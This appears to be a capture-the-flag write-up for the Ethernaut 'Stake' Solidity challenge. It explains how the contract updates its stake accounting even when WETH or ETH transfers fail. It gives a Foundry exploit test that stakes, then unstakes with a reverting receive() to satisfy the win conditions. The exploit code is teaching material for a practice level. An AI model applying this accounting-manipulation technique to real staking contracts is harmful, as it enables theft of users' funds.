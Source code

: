 ### References

* [Solidity Documentation - Yul](https://docs.soliditylang.org/en/v0.8.28/yul.html)
  * Focus on the `calldataload(p)` operation.

## 31 Stake

To beat this level, we need to comply with

```solidity
stakeAddress.balance != 0 &&
stake.totalStaked() > stakeAddress.balance &&
stake.UserStake(_player) == 0 &&
stake.Stakers(_player);
```

In words:

- The Stake contract's ETH balance has to be greater than 0.
- `totalStaked` must be greater than the Stake contract's ETH balance.
- You must be a staker.
- Your staked balance must be 0.

### Solution

Three points:

* `StakeWETH()` will write `totalStaked`, `UserStake`, and `Stakers` even if the WETH transaction fails.
* `Unstake()` will write `UserStake` and `totalStaked` even if the ETH transfer fails.
* You want to assist yourself with a contract to inflate the Staker's stake balance.

See in code documentation for the implementation.

```
contract StakeTest is Test {
  address private challengeAddress;

  function setUp() public {
    challengeAddress = utils.createLevelInstance(0x32FFB8d4244B350F5D3E074e9b731A135531B975);
  }

  function testExploit() public {
    // Makes
    //   stakeAddress.balance != 0
    IStaker(challengeAddress).StakeETH{value: 0.001 ether + 1 wei}();

    // Makes
    //  stake.UserStake(_player) == 0
    // but since this contract's `receive()` reverts, keeps
    //  stakeAddress.balance != 0
    IStaker(challengeAddress).Unstake(0.001 ether + 1 wei);

    // We need the help of this contract to inflate
    // the Staker's stake balance
    AttackAssistant attackAssistant = new AttackAssistant(challengeAddress);
    attackAssistant.attack();

    utils.submitLevelInstance(challengeAddress);
  }

  receive() external payable {
    // This one helps with the condition
    //   "Your staked balance must be 0.""
    revert("Not receiving funds here.");
  }
}
```